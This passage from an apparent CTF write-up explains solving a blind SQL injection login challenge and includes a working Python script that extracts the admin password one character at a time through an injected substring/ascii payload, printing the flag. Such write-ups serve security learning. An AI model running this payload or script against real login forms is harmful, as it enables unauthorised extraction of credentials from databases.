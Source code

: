 I got success message again when I am using order by 3, so no.of columns is 3. And then I tried different queries to print admin password on that page but no use. At last I found that it's just giving "Login Successful!" on right query and "Invalid Credentials" on a wrong query.

Then sure, it's a [Blind SQL Injection][blind-sqli]{:target="_blank"}.

And we have to find the password of user admin. And expected flag format is: `flag{md5_string}`, so our admin password is a 38 length string starting with `flag{` and ends with `}` now we have to get the remaining 32 bit length md5 string. Here is my python script that prints out flag.

{% highlight python %}
# Written by H4rryp0tt3r
import urllib,urllib2
charset=[48, 49, 50, 51, 52, 53, 54, 55, 56, 57, 97, 98, 99, 100, 101, 102]
flag="flag{"
url="http://103.10.24.99/66ee606d5019d75f83836eeb295c6b6f/login.php"
print "[+] Vuln URL: "+url+"\n"
for i in range(6,38):
    for j in charset:
        va={"username":"admin' and ascii(substring((select password from login_users where username='admin'),"+str(i)+",1))="+str(j)+") #","password":"admin"}
        data = urllib.urlencode(va)
        req = urllib2.Request(url, data)
        response = urllib2.urlopen(req)
        html = response.read()
        if "success" in html:
            print "[+] Congrats! Found %d letter of flag and it is : %c \n"%(i-5,chr(j))
            flag+=chr(j)
            break
        else:
            print "[-] Checked %d letter of flag with %c \n"%(i-5,chr(j))
flag+="}"
print "[+] Pwned ! Here is your Flag : %s \n"%(flag)
{% endhighlight %}

And the Flag is:  **flag{c5ec74ca7304b7eab694ec4545f7e6b3}**

Thanks for reading and thanks to team bi0s for making a great CTF and introducing me to different attack vectors.

_Don't forget to give feedback on my writeup's as a comment, so that I can improve._

[blind-sqli]: https://www.owasp.org/index.php/Blind_SQL_Injection